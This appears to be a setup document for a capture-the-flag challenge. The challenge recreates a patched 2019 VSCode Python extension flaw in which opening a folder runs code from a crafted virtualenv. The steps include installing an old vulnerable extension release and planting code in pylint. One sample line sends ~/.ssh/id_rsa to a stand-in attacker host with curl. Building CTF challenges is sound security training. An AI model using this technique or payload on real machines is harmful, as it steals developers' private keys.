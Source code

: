 # Developer Tool Exploit CTF

In late 2019, an exploit was found within the VSCode Python extension. When the editor opened a folder containing a Python virtualenv, that editor could, with the right files in the folder, being executing code contained in the virtualenv without any notification or confirmation from the user. Code execution from simply opening a folder is unexpected and could have led to mass compromises of developer computers. This exploit has been patched out in early 2020.

## Steps for reproducing the exploit

This has been tested outside of a container, but not inside.

### VSCode Setup:

#### Disable auto updates for extensions

This key must be added to the settings file user data directory we use in the container (available at `$USER_DATA_DIR/User/settings.json`)
```json
{
    ...
    "extensions.autoUpdate": false
}
```

#### Install Extension
```sh
    wget https://github.com/microsoft/vscode-python/releases/download/2019.10.44104/ms-python-release.vsix
    code --install-extension ./ms-python-release.vsix
```
Note: other extension versions will work. The exploit went fully public in March of 2020, before a fix was applied. I don't know when this bug was introduced. But the bug was first found in early October 2019. So any extension release between those dates should work.

### Exploit Setup (these are the steps the player must take)

The following steps will be done by the player in a folder that we will mount into the container.

#### Create Virtualenv

```sh
    python -m venv myvenv # other names than "myvenv" would work, so long as the player is consistent
```

#### Create `settings.json` in the folder
```json
{
    ...
    "python.pythonPath": "myvenv/bin/python"
}
```

#### Install pylint
`pylint` should be ran when the repository is opened, assuming the victim has not changed the default linting setting. Because we have control over the victims config, we will keep it enabled.

```sh
    myvenv/bin/pip install pylint
```

#### Add a dummy python file

This step might not be necessary. Further testing needed

```sh
    touch dummy.py
```

#### Put the malicious code in one of `pylint`'s sources
For example, you could add to `__main__.py`:

```python
    import os
    os.system("cat ~/.ssh/id_rsa | curl http://maliciousdatacollector.example.com -d $(</dev/stdin)")
```
This would be an example for if you setup a web server at `http://maliciousdatacollector.example.com` to read ssh keys from the request body.

For our CTF, we'd probably do something simpler, like just `cat`ting it instead.

### Open the folder in vscode and watch it go!

